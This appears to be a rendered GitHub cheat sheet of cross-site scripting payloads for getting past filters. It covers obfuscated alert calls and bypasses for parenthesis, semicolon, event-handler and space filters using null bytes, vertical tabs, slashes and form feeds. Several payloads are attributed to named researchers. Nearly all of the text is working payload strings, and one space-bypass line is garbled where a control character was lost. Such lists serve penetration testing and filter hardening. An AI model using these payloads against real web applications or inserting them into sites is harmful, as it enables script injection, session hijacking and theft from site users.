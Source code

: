 ```javascript

[1].find(alert)

top["al"+"ert"](1)

top[/al/.source+/ert/.source](1)

al\u0065rt(1)

top['al\145rt'](1)

top[8680439..toString(30)](1)

holis"><svg onload=top[/al/.source+/ert/.source](1)>
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```
